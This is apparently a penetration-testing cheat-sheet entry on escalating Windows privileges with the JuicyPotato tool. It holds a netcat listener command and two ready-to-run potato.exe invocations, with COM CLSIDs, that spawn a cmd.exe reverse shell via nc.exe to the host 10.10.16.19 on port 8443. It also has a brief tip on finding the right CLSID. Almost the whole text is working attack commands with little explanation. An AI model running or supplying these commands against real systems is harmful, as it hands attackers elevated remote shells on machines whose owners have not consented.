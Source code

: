 #### Escalating Privileges Using Juicy-potato
JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. 
```shell-session
sudo nc -lnvp 8443
```

```shell-session
.\potato.exe -l 53375 -p c:\windows\system32\cmd.exe -c winmgmt:{8BC3F05E-D86B-11D0-A075-00C04FB68820} -a "/c c:\Users\Public\Documents\nc.exe 10.10.16.19 8443 -e cmd.exe" -t *
```

```
for juicy potato to work you need the `CLSID` for the OS ur on,
use Get-CLSID.ps1 to get it and find CLSID FROM THE REPO FOR JUICYPOTATO

\potato.exe -l 4001 -p c:\windows\system32\cmd.exe -c {4661626C-9F41-40A9-B3F5-5580E80CB347} -a "/c c:\Users\Public\Documents\nc.exe 10.10.16.19 8443 -e cmd.exe" -t *

```
